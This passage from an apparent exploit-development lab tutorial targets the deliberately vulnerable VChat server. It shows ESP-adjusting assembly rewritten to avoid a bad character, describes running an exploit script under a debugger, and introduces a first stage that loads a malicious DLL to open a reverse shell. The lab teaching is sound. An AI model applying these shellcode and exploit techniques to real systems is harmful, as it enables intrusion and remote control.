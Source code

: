 2. We will use the machine code that results from the following x86 assembly instructions. We can generate them in Immunity Debugger as done previously or with the `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` program on the Kali Linux machine.
	```
	PUSH ESP  		   ; Push the ESP register's value onto the stack
	POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
	SUB AX,0x0DA5      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0DA5
	PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
	POP ESP            ; Pop the adjusted ESP value into the ESP register
	```

	<img src="Images/I49.png" width=600>

	* Notice that in the subtraction instruction's machine code `\x66\x2d\xa8\x0d` we have an invalid character `a8`! This means we need to modify the program to perform two or more subtractions! Since we are not too concerned with the space this takes, I modified the shellcode to perform 4 subtractions.
	```
	PUSH ESP  		   ; Push the ESP register's value onto the stack
	POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
	SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
	SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
	SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
	SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
	PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
	POP ESP            ; Pop the adjusted ESP value into the ESP register
	```

3. Edit your exploit to reflect [exploit12.py](./SourceCode/exploit12.py), and run the exploit to ensure it works!

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/507e8fe0-f90a-4ae2-80cb-7fe00fc86efe

    1. Click on the black button highlighted below, and enter the address we decided in the previous step.

		<img src="Images/I16.png" width=600>

	1. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250184E`.

		<img src="Images/I26.png" width=600>

	2. Run [exploit12.py](./SourceCode/exploit12.py), and pass the exception to the VChat program.

		<img src="Images/I50.png" width=600>


Now we can generate our *first stage* shellcode, unlike the [Multi-Staged](#multi-stage) exploit, we will not be using the `recv(...)` function to directly load our shellcode onto the stack, we will instead be using `LoadLibraryA(...)` combined with a malicious DLL to generate our reverse shell. More details on malicious DLLs and the `LoadLibraryA(...)` function are contained in the [VChat_DLL](https://github.com/DaintyJet/VChat_KSTET_DLL) writeup.
